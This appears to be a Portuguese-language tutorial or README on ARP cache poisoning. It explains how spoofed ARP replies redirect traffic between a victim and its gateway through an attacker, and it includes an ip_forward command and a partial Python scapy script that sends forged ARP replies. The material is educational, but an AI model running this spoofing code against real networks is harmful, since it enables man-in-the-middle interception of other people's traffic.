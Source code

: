 Observe agora que o que está sendo enviado para o gateway (`192.168.1.1` no MAC `c4:e9:84:9a:14:16`) é que o IP `192.168.1.101` (vítima) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.

# Problemas

Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:

1. Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o iP certo quando passam por ele.

2. A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.

# Soluções

1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:

Pelo próprio kernel
```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
ou

Utilizando o iptables
```bash
sudo apt install iptables
```

2. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um [script](https://github.com/guilhermehiromoto/arp-cache-poisoning/blob/master/arp.py) em python.

```python
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")
    
    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()
    
```
